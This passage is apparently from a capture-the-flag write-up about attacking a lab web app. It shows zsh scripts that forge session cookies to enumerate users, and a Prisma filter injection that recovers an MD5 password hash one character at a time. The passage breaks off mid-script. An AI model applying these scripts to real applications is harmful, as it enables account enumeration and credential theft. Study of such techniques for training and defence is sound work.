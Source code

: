 The target app finds information about the authenticated user by matching each author entry to `req.session.user` in `routers/home.js`{:.filepath}. Since we can control `req.session.user` with a forged session, we can decide which attribute we want to match from the User model and get the username associated with that row.

```js
const files = await client.file.findMany({
  where: { author: req.session.user },
  select: {
    id: true,
    uploadedAt: true,
    size: true,
    name: true,
    private: true,
    authorId: true,
    author: {
      select: {
        username: true,
      },
    },
  },
});
```
{:file="src/routers/home.js" .nolineno}

We choose to use the _id_ field because the Prisma schema defines it as autoincrement which makes it very predictable. Using our session forgery program and shell function, we enumerated users and their files.

```zsh
node forge-session/forge.js & mkdir ids
for id in {1..16}
do
  cookies=($(download_forge_session '{"user":{"id":'$id'}}'))
  curl -b "$cookies" http://download.htb/home/ -so ids/$id
done
grep 'Uploaded By:' ids/* | sort -u
```
{:file="bryan@redteam ➤ zsh" .nolineno}

This leads us to the discovery of the first username created in the table, "WESLEY", which actually matches the author name in `package.json`{:.filepath}.

#### Password Recovery

After further research into Prisma client, we noted the [filter conditions](https://www.prisma.io/docs/concepts/components/prisma-client/filtering-and-sorting) feature, which could enable us to recover values from the database using only two distinct responses (similar to boolean-based SQL injection). This process is automated using a shell function with a username argument.

```zsh
# This will recover the password hash associated with the given username
download_fuzz_password_field() {
  hash=""
  tmpl='{"user":{"username":"'"$1"'","password":{"startsWith":"FUZZ"}}}'
  for i in {1..32} # Password hash alg is MD5 = 16 bytes = 32 hex chars
  do
    for c in {0..9} {a..f} {A..F} # All hex chars
    do
      cookies=($(download_forge_session "${tmpl//FUZZ/$hash$c}"))
      len=$(curl http://download.htb/home/ -b "$cookies" -so /dev/null -w '%{size_download}')
      if [ $len != 2166 ] # Response length 2166 indicates invalid user
      then
        hash+="$c"
        printf "Found char: '%s'\n" "$c" >&2
        break
      fi
```